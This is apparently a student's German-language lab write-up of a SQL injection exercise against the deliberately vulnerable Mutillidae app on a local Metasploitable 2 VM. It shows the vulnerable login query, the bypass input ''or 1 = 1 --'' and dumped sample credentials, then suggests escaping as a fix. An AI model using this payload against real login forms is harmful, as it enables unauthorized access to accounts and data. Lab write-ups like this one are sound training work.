 # Webpenetration Testing

Zu Beginn musste Metasploitable 2 installiert werden. 
Wichtig! Bei Metasploitable 3 gibt es das Feature nicht. 

Nachdem die VM gestartet wurde, musste man die IP finden. Im Browser am Gerät kann man nun die IP im Browser aufrufen, und man kommt zu der Seite. 



```
192.168.0.12/mutillidae
```

Auf der Seite werden absichtlich Schwachstellen und Übungen zum hacken gezeigt. 
Ich habe die Übung zur SQL-Injection gemacht. 



Um auf die Tabelle zugreifen zu können, und select-abfragen ausführen zu können, musste man vorher in der Config Datei die Option Database auf owasp10 umändern. 

Auf der Seite wurden zwei Inputfelder (username, password) gezeigt. 
Das Statement für die Datenbank war: 
```
select * from accounts where username='' and password=''
```


Mithilfe einer SQL-Injection können nun alle Ergebnisse aus der Datenbank gefiltert. 


Ziel war es, die username Überprüfung so zu bearbeiten, dass sie auf true gesetzt wird, und die Passwortabfrage, dass sie auskommentiert wird. 
```
select * from accounts where username='' or 1 = 1 -- //password
```

Das heißt mit folgendem Input: 
```
"'or 1 = 1 --" 
```
liefert die Datenbank alle Ergebnisse. 

```
Username=admin
Password=adminpass
Signature=Monkey!

Username=adrian
Password=somepassword
Signature=Zombie Films Rock!

Username=john
Password=monkey
Signature=I like the smell of confunk

Username=jeremy
Password=password
Signature=d1373 1337 speak

Username=bryce
Password=password


....
``` 

## Wie hätte man es verhindern können? 

Anhand des dbConfig files erkennt man, dass der server mit PHP geschrieben ist. 
In PHP gibt es die methode real_escape_strings(), mit dieser werden die Eingaben auf SQL-Injections geprüft, und es wird verhindert. 



